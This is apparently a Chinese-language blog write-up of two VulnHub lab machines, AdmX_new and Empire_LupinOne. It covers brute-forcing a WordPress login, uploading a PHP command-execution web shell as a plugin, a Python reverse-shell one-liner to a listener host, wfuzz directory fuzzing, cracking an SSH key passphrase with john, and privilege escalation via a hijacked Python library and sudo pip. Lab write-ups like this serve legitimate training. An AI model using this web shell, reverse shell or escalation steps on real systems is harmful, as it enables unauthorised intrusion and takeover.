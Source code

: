 ```yaml
---
title: "Vuln AdmX_new & Empire_LupinOne"
subtitle: ""
date: 2024-12-12
draft: false
author: ""
authorLink: ""
description: ""
license: ""
images: []

tags: ["渗透"]
categories: ["靶场"]

featuredImage: ""
featuredImagePreview: ""

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: true
  # ...
mapbox:
  # ...
share:
  enable: true
  # ...
comment:
  enable: true
  # ...
library:
  css:
    # someCSS = "some.css"
    # 位于 "assets/"
    # 或者
    # someCSS = "https://cdn.example.com/some.css"
  js:
    # someJS = "some.js"
    # 位于 "assets/"
    # 或者
    # someJS = "https://cdn.example.com/some.js"
seo:
  images: []
  # ...
---
```


## AdmX_new
### 靶场链接
https://download.vulnhub.com/admx/AdmX_new.7z
### 日常扫描
![image.png](https://www.helloimg.com/i/2025/02/01/679dd5311e56b.png)
只有80端口开放，直接访问没什么东西，dirb扫描出来wordpress，访问看看，发现很慢，burp抓包发现重定向到192.168.159.145
![image-1.png](https://www.helloimg.com/i/2025/02/01/679dd52e24b43.png)
### getshell
wordpress的后台登陆在wp-login.php,爆破账号密码得到admin/adam14,进入后台第一时间想着图片马传上去，然后蚁剑连接，结果一直失败，后面发现可以传插件，打包成zip传上去

```
<?php
if(isset($_GET['cmd']))
        {
                system($_GET['cmd']);
        }

?>
```
尝试访问http://192.168.64.9/wordpress/wp-content/plugins/wordpress_getshell.php?cmd=id
![image-2.png](https://www.helloimg.com/i/2025/02/01/679dd530c78d5.png)
哎，可以执行，尝试python反弹shell
>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.64.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

![image-3.png](https://www.helloimg.com/i/2025/02/01/679dd52e2272e.png)
![image-4.png](https://www.helloimg.com/i/2025/02/01/679dd531a572c.png)
### 提权
成功之后sudo -l看看文件执行权限，发现
![image-5.png](https://www.helloimg.com/i/2025/02/01/679dd52f147d6.png)
直接执行这个，
![image-6.png](https://www.helloimg.com/i/2025/02/01/679dd52e8c7a0.png)
成功拿到root

## Empire_LupinOne
### 靶场链接
https://www.vulnhub.com/entry/empire-lupinone,750/
### 扫描
![image.png](https://www.helloimg.com/i/2025/02/01/679dd7a31fbbe.png)
访问80端口看看
![image-1.png](https://www.helloimg.com/i/2025/02/01/679dd7a18e13e.png)
一个图片，源码里面也什么都没有
dirb直接扫目录啥都没有，robots.txt里面有一个
![image-2.png](https://www.helloimg.com/i/2025/02/01/679dd7a049265.png)
但是访问这个页面又是一个404,在旧版本的Apache服务器中，~ 指代用户主目录，可以用fuzz进行测试
>wfuzz -c -z file,/usr/share/wordlists/wfuzz/general/common.txt --hc 403,404 http://192.168.64.15/~FUZZ

扫描出来secret页面，
![image-3.png](https://www.helloimg.com/i/2025/02/01/679dd7a3c06f4.png)
大概发现是有个账号，还缺一个密码，在这个下面继续探测
>wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  --hc 404,403 -u http://192.168.64.15/~secret/.FUZZ.txt

发现.mysecret.txt，访问一下
![image-4.png](https://www.helloimg.com/i/2025/02/01/679dd79f9cf8a.png)
### getshell
估计就是ssh的密钥，不过被简单的加密了，扔厨子里面，base58直接出来
返回kali，vim一个sshkey，扔进去，然后用join暴力破解
>/usr/share/john/ssh2john.py sshkey > hash
john --wordlist=/usr/share/wordlists/fasttrack.txt hash

得到密码P@55w0rd!
![image-5.png](https://www.helloimg.com/i/2025/02/01/679dd79fa58da.png)

### 提权
sudo -l看看
![image-6.png](https://www.helloimg.com/i/2025/02/01/679dd79fb94e6.png)
大概是自己写了个python库，然后这个python文件可以执行他，而且是另一个号的权限，那么就可以通过这个提权，
>find /usr/ -name '*webbrowser*'
/usr/lib/python3.9/webbrowser.py

![image-7.png](https://www.helloimg.com/i/2025/02/01/679dd7a33af38.png)
往里面写一个binsh试试（这个靶机怎么vim都没有啊啊）
![image-8.png](https://www.helloimg.com/i/2025/02/01/679dd7a5c037c.png)
执行之后确实提升权限了，但是还不是root，再来sudo -l一下，发现可以执行pip，直接pip提权
![image-9.png](https://www.helloimg.com/i/2025/02/01/679dd7a367e37.png)
这个时候就结束了